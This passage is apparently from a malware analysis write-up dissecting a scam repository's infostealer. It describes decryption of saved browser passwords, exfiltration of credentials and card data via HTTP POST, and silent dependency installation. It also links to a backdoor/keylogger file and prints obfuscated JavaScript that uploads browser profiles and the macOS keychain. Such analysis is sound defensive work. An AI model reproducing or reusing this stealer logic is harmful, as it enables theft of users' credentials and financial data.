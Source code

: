 >  Decrypts password using AES (symmetric encryption), clearly attempting to recover plaintext credentials.

- **On Windows**:

```python
def decrypt_windows_password(password, key):
    ...
```

>  Platform-specific decryption logic, possibly using Windows Data Protection API.

#### 3. It sends this data to a remote server

Using `requests.post`, the collected credentials and credit card data are exfiltrated.

#### 4. It tries to remain stealthy

- Detects the OS platform.
- Silently installs missing dependencies.

#### 5. No user interaction or consent is involved

>  This behavior strongly indicates malicious intent or spyware functionality.

### Deeper in Pay106_81.py

Below is the link of ```Pay106_81.py```:
[Pay106_81.py](https://github.com/VuxNx/REPO_SCAM_WU/blob/master/payload_decrypt.py)

This code setup backdoor and keylogger at Client, nothing markable 🤷‍♂️. Now, back again ```res.js``` 🐡

<hr style="border: none; border-top: 1px solid #ccc;">

This is the main of ```res.js```:

```javascript
  var M = 0;
  const main = async () => {
    try {
      const _0xe68e63 = Math.round(new Date().getTime() / 1000);
      await (async () => {
        try {
          await UpAppData(Chrome_browser, 0, _0xe68e63);
          await UpAppData(Brave_browser, 1, _0xe68e63);
          await UpAppData(Opera_browser, 2, _0xe68e63);
          uploadMozilla(_0xe68e63);
          uploadEs(_0xe68e63);
          if ('w' == platform[0]) {
            await uploadFiles(getAbsolutePath('~/') + "/AppData/Local/Microsoft/Edge/User Data", '3_', false, _0xe68e63);
          }
          if ('d' == platform[0]) {
            await UpKeychain(_0xe68e63);
          } else {
            await UpUserData(Chrome_browser, 0, _0xe68e63);
            await UpUserData(Brave_browser, 1, _0xe68e63);
            await UpUserData(Opera_browser, 2, _0xe68e63);
          }
        } catch (_0xff138d) {}
      })();
      Xt();
    } catch (_0x54b717) {}
  };
  main();
```
And at this point, it’s clear — the content of the main function confirms everything we’ve been suspecting all along.
